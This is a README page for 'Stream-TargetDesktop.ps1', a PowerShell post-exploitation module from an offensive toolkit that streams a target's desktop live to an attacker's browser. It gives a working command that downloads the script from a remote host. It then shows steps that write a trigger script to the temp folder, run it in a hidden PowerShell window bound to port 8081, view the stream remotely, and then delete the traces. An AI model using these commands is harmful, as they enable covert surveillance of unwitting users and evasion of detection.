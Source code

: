 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|Stream-TargetDesktop|Stream target desktop live|User Land|Dependencies: firefox browser (attacker)<br />[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "Stream-TargetDesktop.ps1"
```

**execute:**
```powershell
#Build triggers script
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream
Start firefox on: "http://${RemoteHost}:${BindPort}"


#Stop stream
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|Where-Object { $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
